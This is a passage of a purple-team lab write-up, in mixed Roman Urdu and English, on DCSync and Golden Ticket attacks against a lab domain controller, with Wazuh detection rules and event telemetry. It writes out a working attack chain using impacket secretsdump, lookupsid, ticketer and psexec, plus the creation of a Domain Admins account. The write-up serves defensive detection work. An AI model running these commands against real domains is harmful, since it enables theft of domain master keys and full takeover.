<!-- scope: operator-owned host, single operator, no distribution -->
<!-- class: active directory kerberos golden ticket and dcsync detection -->
<!-- boundary: operator lab validation only -->

# Lab 13 — Golden Ticket (TGT Forgery) & DCSync Detection Lab

Part of the **Core Detection Labs: Kerberos Attack & Defense Series** — an end-to-end purple-team investigation: Active Directory directory replication abuse (DCSync), offline Ticket Granting Ticket (TGT) forgery using the `krbtgt` master key, Kerberos ticket injection, unauthorized administrative lateral movement, and custom **Wazuh 4.14.5** SIEM detection engineering.

---

## Executive Summary & Attack Matrix

Active Directory enterprise environments mein Kerberos authentication ka poora trust model ek single master secret par tika hota hai: **Domain `krbtgt` Account**. Agar koi adversary domain ke replication rights abuse karke (DCSync) ya NTDS.dit extract karke `krbtgt` account ka password hash ya AES-256 key chura le, to wo Active Directory forest ka mukammal control hasil kar leta hai.

Is lab mein humne Kali Linux (`192.168.100.50`) se apne Windows Server 2022 Domain Controller (`WIN-SOCLAB.soclab.local` / `192.168.100.146`) par mukammal **DCSync** attack execute kiya, offline ASN.1 DER structures construct karke **Golden Ticket (TGT)** forge kiya, aur `impacket-psexec` ke zariye remote `nt authority\system` shell execute ki. Sath hi Wazuh SIEM ke andar raw Windows Security Event logs (Event IDs 4662, 4769, 4672, 4624) collect karke 3 custom production-grade detection rules (**Rules 100123, 100124, 100125**) develop aur verify kiye.

| # | Attack Stage | Windows Event ID | Wazuh Rule ID | Rule Level | Technical Telemetry Signature |
|---|---|---|---|---|---|
| **0** | **Privileged Account Setup** | **4720 / 4728** | **100109 / 100105** | **Level 10 / 10** | High-privilege account creation (`svc-syncadmin`) outside business hours & addition to `Domain Admins` |
| **1** | **DCSync Replication** | **4662** | **100123** | **Level 13** | Directory Service replication request (`AccessMask: 0x100`) by non-machine account |
| **2** | **Ticket Forgery** | N/A (Offline) | N/A | N/A | Offline ASN.1 DER PAC construction using compromised `krbtgt` AES-256 master key |
| **3** | **TGS Service Ticket Anomaly** | **4769** | **100124** | **Level 11** | Kerberos service ticket requested with forged TGT (Zero preceding Event 4768 on DC) |
| **4** | **Administrative Logon & Privileges** | **4672 / 4624** | **100125** | **Level 12** | Special privileges assigned (`SeDebugPrivilege`, etc.) during network logon (Type 3) via injected PAC |
| **5** | **Administrative Share Execution** | **5140** | **60107** | **Level 5** | Network share accessed (`ADMIN$`, `C$`, `IPC$`) for remote service installation |

---

## Architectural Mechanics: Why Active Directory Trusts a Lie

### 1. The Stateless KDC Paradox
Normal authentication mein jab user kisi domain service (jaise file share ya database) ko access karta hai, to Domain Controller (KDC) user ke **Ticket Granting Ticket (TGT)** ko verify karta hai.

Active Directory architecture ki buniyadi vulnerability yeh hai: **KDC ticket validation ke waqt mukammal tor par STATELESS hota hai.**
- KDC apne Active Directory database (`NTDS.dit`) se yeh check nahi karta ke TGT kis session mein issue hua tha ya user ke current group memberships kya hain.
- KDC sirf ek mathematical verification karta hai: **Kya yeh TGT domain ke secret `krbtgt` account key se encrypt aur digitally sign hui hai?**
- Agar cryptographic signature match ho jaye, to KDC ticket ke andar mojood **Privilege Attribute Certificate (PAC)** ko decode karta hai aur ticket mein likhe hue tamam Group SIDs (e.g., Domain Admins RID `512`, Enterprise Admins RID `519`) par aankhen band karke trust kar leta hai.

```text
Normal Authentication Workflow:
[User / Workstation] ──(AS-REQ)──► [KDC: NTDS.dit Verification] ──(AS-REP: Genuine TGT)──► [User Cache]

Golden Ticket Attack Workflow:
[Attacker with krbtgt Key] ──(Offline PAC Crafting)──► [Forged TGT: 10-Year Validity / RID 500 / 512]
                                                                  │
[Attacker] ──(TGS-REQ + Forged TGT)───────────────────────────────┘
   │
   ▼
[KDC] ── Decrypts with genuine krbtgt key ──► "Signature Valid!" ──► Issues Genuine Service Ticket!
```

### 2. The DCSync Mechanism (MS-DRSR / DRSUAPI)
Golden Ticket banane ke liye attacker ko `krbtgt` account ka NTLM hash ya AES key chahiye hoti hai. Puraane attacks mein Domain Controller par jaakar physical `NTDS.dit` file dump karni parti thi.

**DCSync** ne is attack ko remote RPC execution mein badal diya. Microsoft Directory Replication Service Remote Protocol (**MS-DRSR**) ko abuse karte hue attacker ek legitimate Domain Controller ban kar peer DC ko RPC request bhejta hai: *"Main DC hoon, mujhe `krbtgt` account ki replication update do."* Target DC bina kisi suspicious process ya DLL injection ke, RPC protocol ke zariye domain secrets stream kar deta hai.

---

## Network Topology & Lab Environment

```text
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              GOLDEN TICKET & DCSYNC LAB TOPOLOGY                       │
├────────────────────────────────────────────────────────────────────────────────────────┤
│                                                                                        │
│   [ Kali Linux 2026.x ]                                  [ Windows Server 2022 DC ]    │
│   IP: 192.168.100.50                                     IP: 192.168.100.146           │
│   Role: Adversary & SIEM Server                          Host: WIN-SOCLAB.soclab.local │
│   • Wazuh Manager / Indexer / Dashboard                  • Active Directory Services   │
│   • Impacket (secretsdump, ticketer, psexec)             • Kerberos KDC (Port 88)      │
│   • Kerberos Client (KRB5CCNAME)                         • RPC (Port 135) / SMB (445)  │
│                                                          • Wazuh Agent 001 Active      │
│                                                                                        │
│   [ Windows Analyst Workstation ]                                                      │
│   IP: 192.168.100.27                                                                   │
│   Role: SOC Analyst Dashboard Access (HTTPS) / Active Directory Remote Admin           │
└────────────────────────────────────────────────────────────────────────────────────────┘
```

---

## Chronological Walkthrough & Evidence Analysis

Poora lab execution 40 sequential screenshots par mushtamil hai jo red team exploitation aur blue team detection verification ko step-by-step document karte hain.

---

### Phase 1: High-Privilege Account Creation & Elevation (Red Team Setup)

DCSync attack execute karne ke liye user account ke paas Directory Replication permissions honi zaroori hain (`Replicating Directory Changes` aur `Replicating Directory Changes All`). Lab setup mein humne DC par PowerShell ke zariye dedicated service account create kiya aur use `Domain Admins` group mein add kiya taake replication rights inherit ho saken.

```powershell
# Create dedicated replication service account on Domain Controller
New-ADUser -Name "svc-syncadmin" -SamAccountName "svc-syncadmin" -AccountPassword (ConvertTo-SecureString "SyncOpsPassword2026!" -AsPlainText -Force) -Enabled $true

# Elevate account to Domain Admins
Add-ADGroupMember -Identity "Domain Admins" -Members "svc-syncadmin"
```


*Figure 1.1: DC PowerShell par `svc-syncadmin` account creation aur `Domain Admins` group membership assignment.*

#### Blue Team SIEM Detection (Account Lifecycle Monitoring)
Jese hi yeh account create hua aur privileged group mein add hua, Wazuh SIEM ne do alerts generate kiye:
1. **Rule 100109 (Level 10):** Account created outside business hours (Event ID 4720).
2. **Rule 100105 (Level 10):** Account added to privileged group (Event ID 4728).


*Figure 1.2: Wazuh Discover dashboard par Rule 100109 ka alert — off-hours account creation capture.*


*Figure 1.3: Wazuh Rule 100105 alert — `svc-syncadmin` ko `Domain Admins` group mein add hone par Level 10 alert trigger hua.*

Event 4728 ke document details aur message structure mein attacker ka account aur target security-enabled global group clear nazar aate hain:


*Figure 1.4: Event 4728 raw document details showing `MemberSid` aur `TargetUserName` (`svc-syncadmin`).*


*Figure 1.5: Windows Security event message: "A member was added to a security-enabled global group" (`Domain Admins`).*

---

### Phase 2: DCSync Exploitation via DRSUAPI & Master Key Dumping

Kali Linux (`192.168.100.50`) se humne Impacket ka `secretsdump.py` tool run kiya aur `-just-dc-user krbtgt` switch pass kiya taake sirf target domain ka master Kerberos account dump ho:

```bash
# Execute DCSync targeting krbtgt account credentials
impacket-secretsdump -just-dc-user krbtgt soclab.local/svc-syncadmin:SyncOpsPassword2026!@192.168.100.146
```


*Figure 2.1: Kali terminal output showing DRSUAPI replication dumping `krbtgt` NTLM hash aur AES-256 / AES-128 / DES master encryption keys (sensitive hashes and master keys are naturally blurred).*

#### Telemetry Analysis of DCSync Network Logon (Event 4624)
DCSync request bhejte waqt Kali machine DC ke RPC port 135 par authenticate hoti hai. Isse DC par **Event 4624 (Logon Type 3 — Network)** log hota hai jo Wazuh ke **Rule 100115 (Off-Hours Logon)** ko trigger karta hai:


*Figure 2.2: Rule 100115 alert firing at Level 12 for `svc-syncadmin` network logon during off-hours.*


*Figure 2.3: Event 4624 document details showing `LogonType: 3` originating from Kali IP `192.168.100.50`.*


*Figure 2.4: Windows Event 4624 successful logon message header.*


*Figure 2.5: Windows Security log confirming `TargetUserName: svc-syncadmin` successfully authenticated.*


*Figure 2.6: Logon Type 3 details confirming elevated token instantiation (`ElevatedToken: Yes`).*


*Figure 2.7: Target domain details verifying `TargetDomainName: SOCLAB`.*


*Figure 2.8: Authentication package confirmation showing `AuthenticationPackageName: NTLM` / `NTLM V2`.*

---

### Phase 3: Domain SID Enumeration & Initial Offline Ticket Forgery

Golden Ticket forge karne ke liye attacker ko do cheezein darkaar hoti hain:
1. **Domain SID** (e.g., `S-1-5-21-3965529547-1709915012-255161553`).
2. **`krbtgt` account hash / AES key**.

Kali par humne `lookupsid.py` run karke Domain SID aur domain RID range extract ki:

```bash
# Enumerate Domain SID and account RIDs
impacket-lookupsid soclab.local/svc-syncadmin:SyncOpsPassword2026!@192.168.100.146
```


*Figure 3.1: Impacket lookupsid output verifying Domain SID `S-1-5-21-3965529547-1709915012-255161553`.*

#### Offline Ticket Construction (Ticketer.py)
Extracted SID aur `krbtgt` hash ke sath humne `impacket-ticketer` ko call kiya aur ek fictional identity (`GhostAdmin`) ke liye ticket banaya:

```bash
# Forge initial Golden Ticket for GhostAdmin
impacket-ticketer -nthash <KRBTGT_NTLM_HASH> \
  -domain-sid S-1-5-21-3965529547-1709915012-255161553 \
  -domain soclab.local \
  -user GhostAdmin \
  -user-id 500 \
  -groups 512,513,518,519 \
  GhostAdmin.ccache
```


*Figure 3.2: `impacket-ticketer` creating ASN.1 DER structure, building PAC with RID 500 and Group SIDs 512, 513, 518, 519 (hash blurred).*

#### Golden Ticket Lateral Movement & Inspection
Ticket ko active Linux session mein load karne ke baad humne `klist` se uski details inspect keen aur `psexec.py` run kiya:

```bash
# Load ticket into Kerberos cache
export KRB5CCNAME=/home/kali/administrator.ccache

# Inspect Kerberos credentials cache
klist

# Connect to Domain Controller via SMB using Kerberos authentication
impacket-psexec -k -no-pass soclab.local/administrator@WIN-SOCLAB.soclab.local
```


*Figure 3.3: `impacket-psexec` gaining interactive administrative command shell on `WIN-SOCLAB.soclab.local` using forged ticket.*


*Figure 3.4: Linux `klist` output showing 10-year validity lifetime (`11/17/2026` to `11/15/2036`) for `krbtgt/SOCLAB.LOCAL`.*

#### SIEM Telemetry for Initial Golden Ticket Logon
Wazuh dashboard par Kerberos authentication package ke sath Administrator account ka logon capture hua:


*Figure 3.5: Wazuh Threat Hunting showing off-hours Kerberos logon events.*


*Figure 3.6: Event 4624 document details confirming `AuthenticationPackageName: Kerberos`.*


*Figure 3.7: Event 4624 message confirming elevated token creation via Kerberos.*


*Figure 3.8: Wazuh built-in Rule 60106 baseline firing on successful Windows authentication.*

---

### Phase 4: Non-Privileged User Escalation & PAC Validation Engineering

Adversary emulation ko realistic enterprise threat landscape ke mutabiq test karne ke liye humne ek standard non-privileged domain user (`normaluser01`, RID `1153`) create kiya. Iska maqsad yeh prove karna tha ke ek zero-privilege account ko Golden Ticket ke zariye domain administrator kaise banaya jata hai aur Windows Server 2022 ka KDC PAC verification kaise behave karta hai.

```powershell
# Create unprivileged standard user on Domain Controller
New-ADUser -Name "normaluser01" -SamAccountName "normaluser01" -AccountPassword (ConvertTo-SecureString "UserPass2026!" -AsPlainText -Force) -Enabled $true

# Extract object RID
(Get-ADUser -Identity "normaluser01").SID
```


*Figure 4.1: DC PowerShell creating standard domain user `normaluser01` and extracting SID ending in RID `1153`.*

Kali par dobara DCSync execute kiya gaya taake complete directory database verify ho:


*Figure 4.2: Full DCSync dump verifying `krbtgt` AES-256 key (`9a32c2...`) with credentials and keys naturally blurred.*

#### DCSync Detection Firing (Rule 100123 — Event 4662)
DC par jab DCSync RPC request pohnchi, to Windows Security ne **Event ID 4662** log kiya. Wazuh ke **Rule 100123** ne is request ko pakad kar **Level 13 (Critical Alert)** trigger kiya:


*Figure 4.3: Wazuh Rule 100123 firing at Level 13: "Active Directory: Potential DCSync Attack - Directory replication extended rights requested by non-DC account".*


*Figure 4.4: Event 4662 details showing `AccessMask: 0x100` and `Properties` containing DRSUAPI Replication Extended Rights GUID (`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`).*

Account creation aur baseline network access ke additional alerts:

